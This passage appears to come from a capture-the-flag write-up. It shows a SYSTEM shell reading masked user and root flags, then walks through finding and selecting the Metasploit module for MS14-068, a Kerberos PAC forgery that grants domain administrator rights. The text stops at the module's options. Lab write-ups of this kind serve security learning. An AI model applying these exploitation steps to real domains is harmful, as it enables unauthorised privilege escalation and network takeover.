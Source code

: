 ```
# check context
C:\Windows\system32>whoami
nt authority\system
# grab the first flag
C:\Windows\system32>type c:\users\james\desktop\user.txt
e70<SNIP>7a0
# grab the second flag
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
836<SNIP>e75
```

## Things to Figure Out

Metasploit has a module for exploiting MS14-068 under `auxiliary(admin/kerberos/ms14_068_kerberos_checksum`.  Taken from its description:&#x20;

> This module exploits a vulnerability in the Microsoft Kerberos implementation. The problem exists in the verification of the Privilege Attribute Certificate (PAC) from a Kerberos TGS request, where a domain user may forge a PAC with arbitrary privileges, including Domain Administrator. This module requests a TGT ticket with a forged PAC and exports it to a MIT Kerberos Credential Cache file. It can be loaded on Windows systems with the Mimikatz help. It has been tested successfully on Windows 2008.

<pre class="language-bash"><code class="lang-bash"># launch metasploit in quiet mode
$ msfconsole -q
# search for the exploit
<strong>msf6 > search ms14-068
</strong>
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  auxiliary/admin/kerberos/ms14_068_kerberos_checksum  2014-11-18       normal  No     MS14-068 Microsoft Kerberos Checksum Validation Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
# select the exploit
msf6 exploit(windows/smb/ms17_010_psexec) > use 0
# configure module
msf6 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > show options

Module options (auxiliary/admin/kerberos/ms14_068_kerberos_checksum):
